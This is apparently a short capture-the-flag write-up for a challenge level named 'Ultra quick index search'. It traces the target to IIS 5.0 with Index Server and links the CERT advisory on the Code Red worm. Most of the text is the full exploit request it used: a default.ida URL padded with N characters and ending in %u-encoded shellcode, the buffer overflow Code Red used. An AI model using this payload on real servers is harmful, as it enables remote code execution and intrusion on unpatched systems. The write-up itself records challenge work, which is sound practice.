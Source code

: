 #### Level 08 - Ultra quick index search

Googled: "Red Code Inc's UQI-search is powered by Microsoft Internet Information Services (IIS) 5.0, Microsoft Index Server 2.0 and Microsoft Windows 2000 Server."

Found: http://www.cert.org/advisories/CA-2001-19.html and http://en.wikipedia.org/wiki/Code_Red_(computer_worm)

Used: 
```
http://www.hacmegame.org/hacmegame/challenges/default.ida?
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000%u00=a
```

Done.